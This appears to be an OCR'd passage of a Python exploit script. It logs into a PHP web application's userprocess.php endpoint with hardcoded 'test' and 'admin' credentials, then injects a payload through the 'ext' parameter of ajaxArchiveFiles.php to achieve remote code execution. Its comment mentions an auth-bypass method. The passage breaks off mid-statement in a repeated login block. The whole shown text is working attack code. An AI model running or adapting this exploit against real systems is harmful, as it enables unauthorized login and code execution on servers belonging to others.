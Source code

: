 
    def exploit():

        payload = {

        'user': 'test',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:

                print("(+) Log in as test completed")

                params = {'path':'test',

                          'ext': payload_final

                         }

                rce=s.get(url+'lib/ajaxHandlers/ajaxArchiveFiles.php', verify=False, params=params)

                if "success" in rce.text:

                    print("(+) Payload executed successfully")

                else:

                    print("(-) Error when executing payload, please debug the exploit") #if you used method 2 to auth bypass and 1 for RCE, ignore this message

        payload = {

        'user': 'admin',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:

                print("(+) Log in as test completed")

                params = {'path':'test',
